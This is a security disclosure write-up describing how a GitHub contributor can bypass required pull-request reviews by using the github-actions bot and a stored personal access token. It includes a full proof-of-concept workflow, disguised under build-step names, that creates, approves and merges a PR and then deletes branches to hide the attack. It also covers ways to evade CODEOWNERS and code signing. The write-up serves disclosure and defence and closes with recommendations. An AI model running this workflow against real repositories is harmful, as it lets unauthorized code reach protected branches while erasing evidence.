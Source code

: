 # Bypassing Required Reviews - Continued 

Last year Cider Security disclosed a mechanism via the GitHub Bug Bounty program that allowed a contributor
to approve their own PR using the `github-actions bot`; see [Bypassing required reviews using GitHub Actions](https://medium.com/cider-sec/bypassing-required-reviews-using-github-actions-6e1b29135cc7)

In March 2022, I discovered that the `github-actions bot` could create a PR and a contributor
could then approve the PR. The following write-up was submitted to HackerOne; however, the 
same bypass had already been disclosed in January 2022. A fix was introduced on May 3rd, 2022
to allow organization administrators to prevent the `github-actions bot` from creating a PR:

[GitHub Actions: Prevent GitHub Actions from creating and approving pull requests](https://github.blog/changelog/2022-05-03-github-actions-prevent-github-actions-from-creating-and-approving-pull-requests/)

While this fix combined with the fix for Cider Security's finding is a good
start it still leaves a few open problems.

1. The fixes are only configurable in an organization. Which means any project under a
   regular user account **cannot enable this protection**. So any repository under a user's
   account with mulitple contributors is still vulnerable.
2. The **fixes are not retro-active** - for existing organizations you need to have an
   organization administrator update the settings.
3. If you have a **Personal Access Token (PAT) stored in your GitHub Secrets** - you are
   likely **still vulnerable** as a contributor could use these techniques using the PAT
   instead of the `github-action bot` to create or approve a PR (depending on the associated
   rights for the PAT).
4. A contributor still has the ability to clean-up their tracks - as most if not all
   evidence can be deleted using the rights granted to a contributor. Specifically,
   a contributor can delete a workflow run and the associated branch - effectively
   erasing the malicious workflow file and the execution logs. The only evidence
   remaining might be emails that contain links to a workflow execution that no
   longer exists.

## Write-up

A contributor to a project can create a branch containing a workflow file that
will cause the `github-actions bot` to create a new PR. This can be done by
creating a new workflow that triggers on `push`, contains a `run` step
that simply creates a new branch, makes changes to the branch, and then pushes
the new branch to `origin`. The contributor can, within the malicious workflow
file, use one of their own Personal Access Tokens (PAT) or any PAT within the
repository's secrets that have sufficient rights to create an approval review
of the PR created by the `github-actions bot`. The malicious workflow file can
subsequently merge the PR using the same PAT or any PAT available in GitHub
Secrets.

To further extend this, if there is a PAT with sufficient rights to create a
PR it would be possible to create the a PR using the PAT from GitHub Secrets.
The result is that the generated PR would appear to be from the creator of the
PAT. The implications of this show how dangerous it currently is to store one
or more PATs in a repostiry's secrets.

### But We Use CODEOWNERS?

The above bypass works even if CODEOWNERS is used to protect the `.github`
folder - as long as the PR created by the `github-actios bot` does not modify
anything in the `.github` directory or any other protected directory. However,
even the CODEOWNERS restriction can be bypassed if there is a PAT created by a
code owner and is contained in the repository's secrets.

The reason the bypass works even when CODEOWNERS is protecting the `.github`
directory is that we are not modifying any workflow files in the `main` branch
or other protected branches. The branch created by the contributor/attacker is
not a protected branch.

### What about workflow permissions?

Workflow permissions are not a valid mechanism to prevent the bypass. Currently,
permissions are set in the workflow files themselves. Within a PR the contributor
can create or modify a workflow file to remove or modify the permissions. Any of
these changes can then be reverted during the first execution of the workflow (see
Hiding Our Tracks).

### Code Signing?

Enabling code signing requirements may appear affective as the bypass would require
the creation of commits within the execution of the Action. However, even this
could be bypassed by supplying the Action with a signing key. The signing key
could be hard-coded in the workflow file or retrieved via curl at runtime.
The primary benefit of code signing is that in a forensic investigation it
may be easier to track down the attacker or malicious commits. Also, there
is no association between the signed commit and the creator of the PR; one
could create a random new user on GitHub, create and publish the key, and
then use the private key in the workflow to sign the commits.

### Forked Repositories

The above bypass only works for contributors. I do not believe a forked repository
could be used to bypass required reviews.

### Hiding Our Tracks

In the POC, some techniques are shown that could be used to make the attack
less visible - even removing the malicous workflow file that causes the
`github-actions bot` to create a PR. A contributor can delete the branches
created during the attack and the workflow execution - at the time of writting
this a contributor has the ability to delete a workflow execution. The only
remaining evidence is an approved, merged PR.

## Steps To Reproduce

In the steps below we will use Bob and Alice to differentiate accounts
in GitHub. Bob is the owner of the repository and Alice is a contributor.

1. Bob creates a new repository: `test-repo` and configures branch protection on `main` to require PR approvals.
2. Bob creates a PAT with public repostiroy rights and adds it to the `test-repo`'s secrets and name the secret `REPO_TOKEN`.
   - Note that as discussed above this step is not required, but makes reproducing the attack easier and does not expose anyones' PATs when recording the demo.
3. Alice clones the `test-repo`.
4. Alice creates a new branch: `git checkout -b bypass`.
   - Note that the branch name `bypass` is referenced in the malicious workflow file.
5. Alice adds/modifies the following file `.github/workflows/branch.yml`

    ```yaml
    name: Java CI

    on: 
    push:
      branches:
        - bypass

    jobs:
      build:
        runs-on: ubuntu-latest

        steps:
        - uses: actions/checkout@v2
        - name: Set up JDK 11
            run: |
            git config --global user.email "unknown@author.com"
            git config --global user.name "Unknown Author"
            git fetch
            git checkout main
            git pull origin main
            git checkout -b dangerous
            echo "# Unexpected File" > dangerous.md
            echo "" >> dangerous.md
            echo "This file was introduced by bypassing required reviews on the repository" >> dangerous.md
            git add dangerous.md
            git commit -am 'initial version'
            git push origin dangerous
        - name: Build with Maven
            id: step1
            uses: actions/github-script@v6
            with:
            result-encoding: string
            script: |
                await github.rest.pulls.create({
                    owner: context.repo.owner,
                    repo: context.repo.repo,
                    head: 'dangerous',
                    base: 'main',
                    title: 'Minor Update'
                });
                var token = 'ghp_' + '[removed]' + '[github]' + '[token]';
                return token;
        - name: Tests with Maven
            uses: actions/github-script@v6
            with:
            github-token: ${{ secrets.REPO_TOKEN }}
            #github-token: ${{ steps.step1.outputs.result }}
            #note that the attacker has to know what the next PR # will be and update the script below appropriately
            script: |
                var prNumber=2;
                await github.rest.pulls.createReview({
                    owner: context.repo.owner,
                    repo: context.repo.repo,
                    pull_number: prNumber,
                    event: 'APPROVE'
                })
                await github.rest.pulls.merge({
                    owner: context.repo.owner,
                    repo: context.repo.repo,
                    pull_number: prNumber
                })
        - name: Clean with Maven
            run: |
            #delete the bypass and dangerous branch
            curl -s -X DELETE -u jeremylong:${{ steps.step1.outputs.result }} https://api.github.com/repos/${{ github.repository }}/git/refs/heads/bypass
            curl -s -X DELETE -u jeremylong:${{ steps.step1.outputs.result }} https://api.github.com/repos/${{ github.repository }}/git/refs/heads/dangerous              
    ```

6. Alice then pushes the `bypass` branch.
7. The malicious workflow file, `branch.yml`, will execute and
   create a new branch and PR using the `github-action bot`, approve and
   merge the PR using the PAT stored in GitHub Secrets, and finally
   delete the `bypass` and newly created `dangerous` branch.
8. Alice can then delete the workflow executions for the `bypass` branch
   and any workflow executions that were kicked off for the dangerous
   branch.
9. The `main` branch will now contain the `dangerous.md` file.

## Recommendations

1. For organization - ensure that GitHub Actions cannot approve or create PRs.
2. For user owned repos with multiple contributors - open support tickets with GitHub to make the protections not just at the organization leve but also at the repository level.
3. NEVER store a PAT in GitHub Secrets.
